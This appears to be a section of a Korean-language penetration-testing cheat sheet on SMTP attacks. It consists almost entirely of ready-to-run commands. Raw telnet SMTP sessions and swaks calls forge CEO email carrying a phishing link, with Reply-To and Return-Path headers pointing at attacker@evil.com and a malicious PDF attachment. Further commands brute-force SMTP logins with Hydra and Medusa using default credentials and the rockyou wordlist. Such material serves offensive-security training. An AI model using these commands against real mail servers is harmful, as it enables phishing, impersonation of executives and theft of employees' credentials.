 ### 🎭 메일 스푸핑 공격

```bash
# 기본 스푸핑
telnet {IP} 25
HELO legitimate-domain.com
MAIL FROM: ceo@company.com
RCPT TO: employee@company.com
DATA
From: CEO <ceo@company.com>
To: Employee <employee@company.com>
Subject: Urgent - Password Reset Required

Please reset your password immediately by clicking the link below:
http://malicious-site.com/reset

Best regards,
CEO
.
QUIT

# 다양한 스푸핑 헤더 조작
DATA
From: "Legitimate User" <admin@company.com>
Reply-To: attacker@evil.com
Return-Path: attacker@evil.com
Subject: Important Security Update

[피싱 내용]
.

# swaks를 이용한 고급 스푸핑
swaks --to victim@company.com --from ceo@company.com --server {IP} --body "Please click this link"
swaks --to victim@company.com --from ceo@company.com --server {IP} --attach malicious.pdf
```

### 🔐 SMTP 인증 공격

```bash
# AUTH 명령어 지원 확인
telnet {IP} 25
EHLO attacker.com
# AUTH 옵션 확인

# 기본 자격증명 시도
AUTH LOGIN
# Username (base64): admin -> YWRtaW4=
# Password (base64): password -> cGFzc3dvcmQ=

# 다양한 인코딩으로 브루트포스
echo -n "admin" | base64
echo -n "password" | base64
echo -n "root" | base64
echo -n "123456" | base64

# Hydra를 이용한 SMTP 브루트포스
hydra -l admin -P /usr/share/wordlists/rockyou.txt smtp://{IP}
hydra -L users.txt -P passwords.txt smtp://{IP}

# 다양한 인증 방법 시도
hydra -l admin -p password smtp://{IP} -s 25 -f -V

# Medusa를 이용한 브루트포스
medusa -h {IP} -u admin -P /usr/share/wordlists/rockyou.txt -M smtp
```